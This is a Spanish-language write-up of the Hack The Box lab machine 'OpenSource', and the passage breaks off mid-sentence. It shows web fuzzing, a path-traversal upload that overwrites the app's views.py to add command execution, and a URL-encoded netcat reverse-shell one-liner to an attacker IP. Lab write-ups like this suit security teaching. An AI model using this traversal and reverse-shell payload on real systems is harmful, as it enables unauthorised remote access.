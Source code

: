 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | OpenSource         |
| Os                     | Linux              |
| Difficulty             | Easy               |
| Points                 | 20                 |
| IP                     | 10.10.11.164       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/OpenSource/scan1.png)

Fuzzing

```s
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/wfuzz/webservices/ws-files.txt http://10.10.11.164/uploads/FUZZ
```

Podemos descargarnos el codigo fuente de la aplicacion, tambien vemos que no revisa que el archivo ya existe. Asi que intentaremos reemplazar views.py con las lineas siguientes:

![Scan 1](/assets/images/OpenSource/code_modificado.png)

Procedemos a usar burpsuite, para modificar el response del post. Cambiamos el nombre del archivo a ..//app/app/views.py y de esta manera, lo habremos puesto donde esta el original, pero con una funcion extra que nos permitira ejecutar los comandos que queramos. Y ahora podremos ejecutar comandos de cmd con:

_http://opensource.htb/exec?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|%2Fbin%2Fsh%20-i%202%3E%261|nc%2010.10.14.230%204444%20%3E%2Ftmp%2Ff_

![Shell to Docker container](/assets/images/OpenSource/reverse_shell.png)

Con un ifconfig, vimos que tenemos una interfaz extrana, la cual significara que estamos en un docker container. Para salir de el contenedor, habra que levantar un 
